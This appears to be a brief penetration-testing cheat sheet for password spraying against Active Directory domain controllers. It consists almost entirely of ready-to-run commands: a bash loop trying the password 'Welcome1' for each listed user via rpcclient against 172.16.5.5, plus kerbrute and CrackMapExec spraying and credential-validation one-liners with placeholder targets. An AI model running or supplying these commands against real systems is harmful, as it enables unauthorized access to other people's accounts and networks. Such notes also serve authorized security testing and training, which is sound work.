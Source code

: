 ```yaml
---
legal-banner: true
---
```


1. Using Rpcclient for Password Spraying
	```bash
	for u in $(cat valid_users.txt); do 
		rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; 
	done
	```

2. Using Kerbrute for Password Spraying
	 `kerbrute passwordspray -d example.local --dc [IP_ADDRESS] valid_users.txt [PASSWORD]`

3. Using CrackMapExec for Password Spraying
	`sudo crackmapexec smb [IP_ADDRESS] -u valid_users.txt -p [PASSWORD] | grep +`
	

4. Validating Credentials with CrackMapExec
	`sudo crackmapexec smb [IP_ADDRESS] -u [USERNAME] -p [PASSWORD]`